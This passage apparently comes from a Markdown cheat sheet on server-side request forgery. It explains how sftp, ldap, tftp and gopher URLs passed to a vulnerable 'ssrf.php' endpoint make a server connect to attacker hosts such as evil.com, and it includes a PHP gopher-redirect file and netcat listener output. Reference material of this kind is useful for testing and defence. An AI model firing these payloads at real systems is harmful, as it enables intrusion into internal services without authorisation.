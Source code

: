 ### ```sftp://```

Sftp stands for SSH File Transfer Protocol, or Secure File Transfer Protocol is a separate protocol packaged with SSH that works in a similar way over a secure connection
```
http://example.com/ssrf.php?url=sftp://evil.com:1337/ 
```
As the last example, the URL above will allow the attacker to create a successful connection with a listener in port 1337
```
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 37146)
SSH-2.0-libssh2_1.4.2
```
[Reference](https://www.techopedia.com/definition/1879/secure-file-transfer-protocol-sftp)

### ```ldap://```

LDAP stands for Lightweight Directory Access Protocol. As the name suggests, it is a lightweight client-server protocol for accessing directory services. Look at the example down below to generate a clear concept. 
```
http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquit
```
[Reference](https://searchmobilecomputing.techtarget.com/definition/LDAP)

### ```tftp://```

Trivial File Transfer Protocol is a simple lockstep File Transfer Protocol which allows a client to get a file from or put a file onto a remote host. In the example down below, the attacker will succeed at testing UDP packets. 
```
http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET
```
Result from the URL attack
```bash
evil.com:# nc -lvup 1337
Listening on [0.0.0.0] (family 0, port 1337)
TESTUDPPACKEToctettsize0blksize512timeout3
```

### ```gopher://```
The Gopher protocol is a communications protocol designed for distributing, searching, and retrieving documents in Internet Protocol networks.

**Example:**
First of all, create a gopher.php file and host it on acttacker.com
```php
<?php
   header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');
?> 
```
Then the attacker can get acess to attacker file through the following URL. 
```
http://example.com/ssrf.php?url=http://attacker.com/gopher.php
```
The attack will result to the following TCP connection. 
```bash
evil.com:# nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 49398)
Hi
ssrf
test
```
